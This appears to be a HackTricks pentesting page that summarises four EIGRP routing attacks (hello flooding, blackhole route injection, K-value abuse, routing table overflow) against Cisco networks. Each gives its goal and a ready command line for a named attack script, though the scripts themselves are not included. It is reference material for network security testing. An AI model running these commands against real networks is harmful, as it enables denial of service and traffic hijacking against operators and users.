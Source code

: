 # EIGRP Attacks

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

**This is a summary of the attacks exposed in** [**https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9**](https://medium.com/@in9uz/cisco-nightmare-pentesting-cisco-networks-like-a-devil-f4032eb437b9). Check it for further information.

## **Fake EIGRP Neighbors Attack**
    
- **Objective**: To overload router CPUs by flooding them with EIGRP hello packets, potentially leading to a Denial of Service (DoS) attack.
- **Tool**: **helloflooding.py** script.
- **Execution**:
    %%%bash
    ~$ sudo python3 helloflooding.py --interface eth0 --as 1 --subnet 10.10.100.0/24
    %%%
- **Parameters**:
    - `--interface`: Specifies the network interface, e.g., `eth0`.
    - `--as`: Defines the EIGRP autonomous system number, e.g., `1`.
    - `--subnet`: Sets the subnet location, e.g., `10.10.100.0/24`.

## **EIGRP Blackhole Attack**

- **Objective**: To disrupt network traffic flow by injecting a false route, leading to a blackhole where the traffic is directed to a non-existent destination.
- **Tool**: **routeinject.py** script.
- **Execution**:
    %%%bash
    ~$ sudo python3 routeinject.py --interface eth0 --as 1 --src 10.10.100.50 --dst 172.16.100.140 --prefix 32
    %%%
- **Parameters**:
    - `--interface`: Specifies the attacker’s system interface.
    - `--as`: Defines the EIGRP AS number.
    - `--src`: Sets the attacker’s IP address.
    - `--dst`: Sets the target subnet IP.
    - `--prefix`: Defines the mask of the target subnet IP.

## **Abusing K-Values Attack**

- **Objective**: To create continuous disruptions and reconnections within the EIGRP domain by injecting altered K-values, effectively resulting in a DoS attack.
- **Tool**: **relationshipnightmare.py** script.
- **Execution**:
    %%%bash
    ~$ sudo python3 relationshipnightmare.py --interface eth0 --as 1 --src 10.10.100.100
    %%%
- **Parameters**:
    - `--interface`: Specifies the network interface.
    - `--as`: Defines the EIGRP AS number.
    - `--src`: Sets the IP Address of a legitimate router.

## **Routing Table Overflow Attack**

- **Objective**: To strain the router's CPU and RAM by flooding the routing table with numerous false routes.
- **Tool**: **routingtableoverflow.py** script.
- **Execution**:
    %%%bash
    sudo python3 routingtableoverflow.py --interface eth0 --as 1 --src 10.10.100.50
    %%%
- **Parameters**:
    - `--interface`: Specifies the network interface.
    - `--as`: Defines the EIGRP AS number.
    - `--src`: Sets the attacker’s IP address.


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
